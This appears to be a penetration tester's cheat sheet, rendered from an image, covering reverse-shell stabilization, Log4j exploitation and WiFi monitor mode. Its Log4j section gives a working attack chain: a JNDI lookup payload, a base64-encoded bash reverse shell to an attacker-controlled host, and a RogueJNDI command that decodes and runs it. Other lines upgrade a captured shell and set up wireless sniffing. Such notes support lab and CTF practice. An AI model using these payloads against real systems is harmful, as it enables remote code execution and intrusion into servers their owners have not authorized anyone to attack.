 ### Stabilize
#### Python
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

#### Other
`script /dev/null "/bin/bash"`

# Web
## XSS
## CSRF

## Log4j
Idea: use rogue LDAP server to recv Log4j call and deliver payload
Often: "remember" field

### Test
Use a beeceptor: `${jndi:ldap://bee.cep/test}`

### Craft payload
Custom "nc":
`echo 'bash -c bash -i >&/dev/tcp/$LOCIP/$LOCPORT 0>&1' | base64 `

### RogueJNDI
Build exploit class:
`java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,$b64EXPLOIT}|{base64,-d}|{bash,-i}" --hostname "$LOCIP" `

### Trigger LDAP call
Payload: `${jndi:ldap://$LOCIP:$LOCPORT/o=tomcat}`


# WiFI
## Airmon
- Check processes annoying
`sudo airmon-ng check`
- Kill
`sudo airmon-ng check kill`
- Setup monitor mode
`sudo airmon-ng start wlp2s0 [channel]`
- Stop monitor mode
`sudo airmon-ng stop wlp2s0mon`
